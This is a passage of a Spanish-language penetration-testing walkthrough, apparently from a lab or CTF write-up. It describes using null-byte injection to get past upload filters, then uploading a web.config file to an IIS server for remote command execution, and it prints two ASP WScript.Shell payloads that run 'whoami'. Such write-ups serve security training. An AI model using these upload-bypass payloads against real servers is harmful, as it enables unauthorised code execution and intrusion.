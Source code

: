 Vamos a realizar una [inyección de caracteres nulos](https://infosecwriteups.com/bypass-server-upload-restrictions-69054c5e1be4) para evadir de alguna manera los filtros, para que así se logre cargar.

![ebdc767ef64d3672604cbdab68a14e9f.png](ebdc767ef64d3672604cbdab68a14e9f.png)

Logramos cargar nuestro archivo al servidor, ahora probaremos a entablarnos una consola interactiva del servidor hacia nuestra maquina atacante. Pero vemos que no se puede, ya que nos marca un error.

![b313d49cb6d0c0e8b597672ba9a96932.png](b313d49cb6d0c0e8b597672ba9a96932.png)

Probamos a subir varios extenciones de archivos y nos deja subir un web.config, un web.config es como un .htaccess de un servidor apache
- [https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit)

- [https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/](https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/)

Tenemos una manera de ejecutar comandos, si probamos inyectantando el siguiente codigo.
```bash
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```
```bash
<%
Set wShell = CreateObject("WScript.Shell")
Set cmd = wShell.Exec("cmd.exe /c whoami")
output = cmd.StdOut.Readall()
Response.write(output)
%>
```
Vemos que se puede ejecutar comandos a novel de sistema.
